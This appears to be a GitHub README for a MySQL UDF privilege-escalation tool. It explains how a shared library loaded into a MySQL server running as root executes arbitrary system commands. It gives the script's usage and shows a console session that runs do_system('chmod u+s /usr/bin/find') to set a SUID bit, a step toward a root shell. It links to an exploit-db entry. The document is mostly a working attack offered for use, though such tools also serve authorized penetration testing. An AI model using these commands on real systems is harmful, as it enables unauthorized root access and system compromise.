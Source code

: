 # MySQL-UDF-PrivEsc
Using MySQL UDF to excute system commands
<br/>Prerequisites:
- mysqld must run as root (ps aux | grep mysqld)
- you must know the credentials of a MySQL user that has the permission to create stored function on the DBMS

# How does it works?
The script use UDF shared library on MySQL to execute commands, if mysqld run as root, of course the passed (<b>-c</b>)ommand will be executed as root. On a 64bit *nix box you can pass the compiled .so included in this repo.<br/>
How to use the script: <b>mysql_udf_exec_sys.sh -u mysql-user -p mysql-user-password -s shared-library-path -c command-to-be-executed</b> e.g.<br/>
<i>$ ./mysql_udf_exec_sys.sh -s lib_sys_udf.so -u root -p Secrete -c 'whoami > /tmp/whoM; chmod go+r /tmp/whoM;'</i><br>
  Once the script has been correctly executed you can direct access MySQL console and use the function do_system directly:<br>
<pre>mysql> use mysql;
mysql> select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
</pre>
  
<br><br><b>Please have a look to the following resources to get specific information about the exploit: </b>
  - https://www.exploit-db.com/exploits/1518
  - MySQL UDF: https://mariadb.com/kb/en/library/create-function-udf 
  - Shared library soname: https://en.wikipedia.org/wiki/Soname
